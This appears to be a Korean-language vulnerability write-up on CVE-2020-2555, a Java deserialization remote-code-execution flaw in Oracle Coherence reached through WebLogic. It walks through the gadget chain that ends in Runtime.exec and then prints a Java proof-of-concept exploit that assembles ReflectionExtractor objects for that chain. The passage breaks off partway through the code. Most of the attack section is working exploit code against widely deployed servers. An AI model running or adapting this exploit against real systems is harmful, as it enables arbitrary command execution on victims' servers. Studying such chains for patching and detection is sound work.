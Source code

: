 - 위 단계를 순서대로 나열하면 아래와 같이 나타낼 수 있습니다.
1. BadAttributeValueExpException.readObject()
2. com.tangosol.util.filter.LimitFilter.toString() - extract() 호출(chainedExtractor Reflection 및 limitFilter 객체 할당)
3. com.tangosol.util.extractor.ChainedExtractor.extract() - Loop(3)
4. com.tangosol.util.extractor.ReflectionExtractor.extract() - [getMethod("getRuntime"), invoke(), exec("calc")]
5. Method.invoke()
...
6. Runtime.getRuntime.exec()

### Expanded attack surface: Oracle Business Intelligence

- 또한 앞서 언급했듰이, 해당 취약점은 Coherence library에서 발생하기 때문에 해당 라이브러리를 사용하는 웹 어플리케이션 서버(WebLogic, Glassfish, Hibernate, Spring 등) 및 내장된 어플리케이션에서도 발생할 수 있기 때문에 공격 가능한 범위가 확장 되었습니다.

## Exploit

- CVE-2020-2555 PoC

```java
package com.supeream;

// com.supeream from https://github.com/5up3rc/weblogic_cmd/
// com.tangosol.util.extractor.ChainedExtractor from coherence.jar

import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

/*
 * author:Y4er.com
 *
 * gadget:
 *      BadAttributeValueExpException.readObject()
 *          com.tangosol.util.filter.LimitFilter.toString()
 *              com.tangosol.util.extractor.ChainedExtractor.extract()
 *                  com.tangosol.util.extractor.ReflectionExtractor.extract()
 *                      Method.invoke()
 *                      ...
 *                      Runtime.getRuntime.exec()
 */

public class CVE_2020_2555 {

    public static void main(String[] args) throws Exception {
        // Runtime.class.getRuntime()
        ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getMethod",
                new Object[]{"getRuntime", new Class[0]}

        );

        // get invoke() to execute exec()
        ReflectionExtractor extractor2 = new ReflectionExtractor(
```